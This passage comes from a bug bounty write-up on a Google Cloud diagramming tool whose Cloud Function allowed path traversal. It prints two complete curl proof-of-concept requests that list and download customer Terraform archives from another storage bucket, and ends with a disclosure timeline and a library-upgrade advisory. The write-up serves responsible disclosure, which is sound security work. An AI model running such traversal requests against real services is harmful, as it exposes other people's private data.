Taking advantage of the fact, that I got access to the source code of the Cloud Function, the assessment turned from a [grey-box](https://www.checkpoint.com/cyber-hub/cyber-security/what-is-gray-box-testing/) [^7] to a [white-box](https://www.checkpoint.com/cyber-hub/cyber-security/what-is-white-box-testing/) one:
<p align="center">
<a href="https://storage.googleapis.com/sketchy_cheat_sheet/whitebox.png" target="_blank">
  <img src="https://storage.googleapis.com/sketchy_cheat_sheet/whitebox.png"/>
</a>
</p>

It seemed to me plausible although unlikely, that I could perhaps traverse the path using [dot-dot-slash (../)](https://owasp.org/www-community/attacks/Path_Traversal) and list all objects from a given bucket 💡

> The Google Cloud Storage [XML API](https://cloud.google.com/storage/docs/xml-api/overview) has a really simple [schema](https://cloud.google.com/storage/docs/xml-api/reference-methods) which made the above hypothesis more reasonable than one would think

## Unauthorized access to Terraform Artifacts

It turns out that my intuition proved to be correct (!)

Response to below request contained a listing of a 1000 [^8] objects ie. **customer generated zipped Terraform files** from bucket `adt-tf-artifacts`
```sh
curl 'https://us-east1-sustained-racer-323200.cloudfunctions.net/adt-backend-gcs-handler-fn/load_architecture' \
  -H 'accept: */*' \
  -H 'content-type: application/json;charset=UTF-8' \
  -H 'origin: https://googlecloudcheatsheet.withgoogle.com' \
  -H 'referer: https://googlecloudcheatsheet.withgoogle.com/' \
  -H 'user-agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.0.0 Safari/537.36' \
  --data-binary @- << EOF
  {
    "file_name": "../adt-tf-artifacts/",
    "key": "qvOJmj9wd8JqGldBGCkT7cowpIIThMWapXWNd5TaC4YOArYPvNXizQCbIdVSFoPeH1wpYNCxV8z5QpowCSTy7sQV8m9oyQQ4NKXmP9nEXeUaspIM17BmBvampAB8l9B5"
  } 
EOF > adt-tf-artifacts.xml
```

An attacker could later fetch arbitrary objects from this & potentially other buckets, thus bypassing a significant security boundary:
```sh
curl 'https://us-east1-sustained-racer-323200.cloudfunctions.net/adt-backend-gcs-handler-fn/load_architecture' \
  -H 'accept: */*' \
  -H 'accept-language: en-GB,en-US;q=0.9,en;q=0.8' \
  -H 'content-type: application/json;charset=UTF-8' \
  -H 'origin: https://googlecloudcheatsheet.withgoogle.com' \
  -H 'referer: https://googlecloudcheatsheet.withgoogle.com/' \
  -H 'user-agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.0.0 Safari/537.36' \
  --data-binary @- << EOF
  {
    "file_name": "../adt-tf-artifacts/38cd6c1f-907f-45f7-a355-df1b94eb88eb/adt-terraform.zip",
    "key": "qvOJmj9wd8JqGldBGCkT7cowpIIThMWapXWNd5TaC4YOArYPvNXizQCbIdVSFoPeH1wpYNCxV8z5QpowCSTy7sQV8m9oyQQ4NKXmP9nEXeUaspIM17BmBvampAB8l9B5"
  }
EOF > 38cd6c1f-907f-45f7-a355-df1b94eb88eb.zip
```

Below is the recording which I sent to the Google VRP Team:

<p align="center">
<a href="https://drive.google.com/file/d/1OG3uQfGv1PBVmiBmt7FeKfx8ZOqEdNMK/preview" target="_blank">
  <img src="https://lh3.googleusercontent.com/d/1OG3uQfGv1PBVmiBmt7FeKfx8ZOqEdNMK=w1000"/>
</a>
</p>

The reported attack scenario was a breach of a significant security boundary and eventually got classified as `"unrestricted file system or database access"`

> Careful reader probably realized that this vulnerability was introdcuded alongside the mitigation desribed in [Surprising bypass](#surprising-bypass) - it didn't exist beforehand (!)

## Stumbling on an N-day in Go Cloud Storage client library
While I initially pointed the blame to classic AppSec shortcomings (mostly lack of input validation) it soon occured to me that the **client library itself should've prevented this attack scenario**.

One could reasonably postulate a following [security invariant](https://alsmola.medium.com/security-invariants-or-gtfo-d7db2950f95):

_For a given instance of `client.Bucket({bucket}).Object({object}).NewReader(ctx)`, no value of `{object}` should result in a download from a Bucket != `{bucket}`_

Here's the followup email which I sent a few days after my initial submission:
<p align="center">
<a href="https://storage.googleapis.com/sketchy_cheat_sheet/go_storage_bucket_traversal.png" target="_blank">
  <img src="https://storage.googleapis.com/sketchy_cheat_sheet/go_storage_bucket_traversal.png"/>
</a>
</p>

And here's the fix, which I don't believe was security driven:
<p align="center">
<a href="https://github.com/googleapis/google-cloud-go/commit/6b7b21f8a334b6ad3a25e1f66ae1265b4d1f0995
" target="_blank">
  <img src="https://storage.googleapis.com/sketchy_cheat_sheet/path_traversal_fix.png"/>
</a>
</p>

> ⚠️ PSA: if your application still uses [cloud.google.com/go/storage](https://pkg.go.dev/cloud.google.com/go/storage) version < `1.31.0`, then I'd strongly encourage to upgrade!

## Attack scenario diagram #4

<p align="center">
<a href="https://storage.googleapis.com/sketchy_cheat_sheet/attack_scenraio_diagram_num_4.png" target="_blank">
  <img src="https://storage.googleapis.com/sketchy_cheat_sheet/attack_scenraio_diagram_num_4.png"/>
</a>
</p>

---

# Closing Remarks
In retrospect, following the inutition and curiosity proved to be extremly valuable!

From a strictly business standpoint: risk was reduced & bounties were payed out -> KPIs/OKRs achieved 📈

On a more serious note - I learned **a ton** and this expercience reignited my interest in the offensive side of security.

What's more, I ended up presenting a talk about this entire scenario during [The Hack Summit](https://thehacksummit.com/en/#agenda) 2024 (!) ([slides](https://speakerdeck.com/jdomeracki/sketchy_cheat_sheet))

Last but not least. I'd like to thank:
- my colleagues @ [Egnyte](https://www.egnyte.com/) who supported me along the way 
- Google Security Team for their open-mindedness & willingnes to proofread this writeup!
- my Mom who patiently endured my excited phone calls 💖

---

# Full timeline
Nov 22, 2023: Initial submission of [issu.ee/312687013](https://issuetracker.google.com/issues/312687013)\
Nov 22, 2023: *Status: Won't Fix (Not Reproducible)*\
Nov 23, 2023: Clarification + full PoC\
Nov 23, 2023: 🎉 Nice catch! (P2,S2)\
Nov 28, 2023: Submitted report on the misconfigured Firebase Cloud Storage bucket allowing read & write operations [issu.ee/313685590](https://issuetracker.google.com/issues/313685590)\
Nov 30, 2023: 🎉 Nice catch! (P2,S2)\
Dec 27, 2023: [issu.ee/313685590](https://issuetracker.google.com/issues/313685590) status changed to `fixed`\
Mar 16, 2024: Found out that the bucket is still publicly readable & writable\
Mar 20, 2024: [issu.ee/313685590](https://issuetracker.google.com/issues/313685590) got reopened & assigned\
Mar 28, 2024: VRP Panel decided not to reward monetarly for the second time, but got a coupon for a cool hat instead\
Apr 06, 2024: Reported a bypass of the mitigation introduced somewhen in Q1 2024 and submitted a new report [issu.ee/333194226](https://issuetracker.google.com/issues/333194226)\
Apr 10, 2024: 🎉 Nice catch! (P2,S2)\
Jun 15, 2024: Ability to overwrite deployable architectures opens room for RCE in victim's GCP infrastructure [issu.ee/347462501](https://issuetracker.google.com/issues/347462501)\
Jun 26, 2024: 🎉 Nice catch! (P2,S2)\
Jun 26, 2024: Reported anonymous access to a Gerrit instance containing the backend source code [issu.ee/349432799](https://issuetracker.google.com/issues/349432799)\
Jun 27, 2024: Unauthorized access to a GCS bucket containing Terraform artifacts via a misconfigured Cloud Function [issu.ee/349831037](https://issuetracker.google.com/issues/349831037)\
Jun 27, 2024: 🎉 Nice catch! (P1,S1)\
Jul 02, 2024: 🎉 Nice catch! (P2,S2)\
Jul XY, 2024: [https://googlecloudcheatsheet.withgoogle.com/architecture](https://googlecloudcheatsheet.withgoogle.com/architecture) got taken down 🚧\
Oct XY, 2024: Silently EOL-ed 🪦

---

[^1]: [https://cloud.google.com/blog/topics/developers-practitioners/introducing-google-cloud-architecture-diagramming-tool](https://cloud.google.com/blog/topics/developers-practitioners/introducing-google-cloud-architecture-diagramming-tool)
[^2]: [https://www.googlecloudcommunity.com/gc/Tips-Tricks/GCP-Architecture-Diagramming-Tool/td-p/394583](https://www.googlecloudcommunity.com/gc/Tips-Tricks/GCP-Architecture-Diagramming-Tool/td-p/394583)
[^3]: Recent example -> [https://arc.net/blog/CVE-2024-45489-incident-response](https://arc.net/blog/CVE-2024-45489-incident-response), [https://kibty.town/blog/arc/](https://kibty.town/blog/arc/)
[^4]: [https://gerrit-review.googlesource.com/Documentation/access-control.html](https://gerrit-review.googlesource.com/Documentation/access-control.html)
[^5]: Original writeup -> [https://labs.detectify.com/writeups/bypassing-and-exploiting-bucket-upload-policies-and-signed-urls](https://labs.detectify.com/writeups/bypassing-and-exploiting-bucket-upload-policies-and-signed-urls)
[^6]: [BBRE videoblog](https://youtu.be/AQ-iEqdepA4) describing the by [Grzegorz Niedziela aka gregxsunday](https://twitter.com/gregxsunday)
[^7]: In my opinion Web App pentests of client-side heavy, modern [SPAs](https://developer.mozilla.org/en-US/docs/Glossary/SPA) isn't really [black-box](https://www.checkpoint.com/cyber-hub/cyber-security/what-is-penetration-testing/what-is-black-box-testing/) due to the simple fact that a significant portion of the business logic is exposed
[^8]: This is the default value of [max-keys](https://cloud.google.com/storage/docs/xml-api/reference-headers#maxkeys) and was a limitation which I was not able to bypass (could not add any query paramters)